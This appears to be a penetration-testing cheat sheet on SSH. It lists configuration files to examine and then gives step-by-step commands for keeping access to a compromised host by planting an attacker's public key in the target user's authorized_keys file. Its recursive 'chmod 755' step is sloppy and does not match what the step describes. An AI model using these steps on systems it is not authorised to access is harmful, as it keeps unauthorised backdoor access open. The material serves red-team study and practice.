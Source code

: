 # Examine Configuration Files
- ssh_config
- sshd_config
- autorized_keys
- ssh_known_hosts
- .shosts

# Establish Persistence
If ssh open, you can add your attacker box public key to the machine so that you can ssh into it on-demand.
- Note that this only works if the target user you have a shell on has an interactive login shell(/bin/sh, /bin/bash) assigned to their user in the passwd file.
1. (Target) See if there is a .ssh folder in the home directory of the target user.  If not, create one.
```
ls -lat ~
mkdir ~/.ssh
```
2. (Target) Ensure that there is an authorized_keys file within the .ssh folder.
```
ls -lat ~/.ssh
cd ~/.ssh; touch authorized_keys
```
3. (Target) Ensure that the file permissions on the target user home folder (~), .ssh directory (~/.ssh), and authorized_keys file (~/.ssh/authorized_keys) are only writable by the target user (no other groups or gloabl) and readable by at least the target user.  If not, change the permissions to ensure this.
```
chmod 755 ~ -R
```
4. (Local) Ensure that you have a public / private key pair generated.  If not, generate one.
```
ls -lat ~/.ssh
ssh-keygen
```
5. (Local) Ensure the permissions on your private key (file with id prefix without the .pub suffix) is only readable and writeable by you.
```
chmod 600 ~/.ssh/[private key file like id_rsa]
```
6. (Local and Target) Copy the public key (file with id prefix with the .pub suffix) from our local machine to the authorized_keys file on the target system.
```
#Local# cat ~/.ssh/[public keyfile like id_rsa.pub]|clip
#Target# echo [pasted public key value] >> ~/.ssh/authorized_keys
```
7. (Local) Attempt an ssh login to the target machine as the target user.
```
ssh -i ~/.ssh/[private key like id_rsa] [target user]@[target IP]
```
